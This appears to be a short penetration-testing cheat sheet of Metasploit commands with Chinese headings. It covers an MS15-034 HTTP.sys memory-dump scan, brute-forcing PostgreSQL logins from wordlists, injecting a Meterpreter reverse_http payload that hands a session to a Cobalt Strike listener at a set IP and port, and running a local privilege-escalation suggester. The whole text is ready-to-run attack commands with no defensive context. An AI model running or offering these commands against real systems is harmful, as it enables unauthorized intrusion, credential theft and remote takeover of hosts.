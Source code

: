 **ms15-034**
```bash
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhost ip
run
```


**爆破postgres sql**
```bash
use auxiliary/scanner/postgres/postgres_login
set rhosts 10.7.199.28
set user_file /root/fore/user.txt
set userpass_file /root/fore/pass.txt
set stop_on_success true
exploit
```

**msf转cs**
```bash
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http //PAYLOAD
set DisablePayloadHandler true
set LHOST 192.168.5.173 //cs的IP
set LPORT 50050 //cs监听器的端口
set SESSION 1
exploit
```

**提权帮助模块**

```bash
 use post/multi/recon/local_exploit_suggester
set session 1
exploit
```



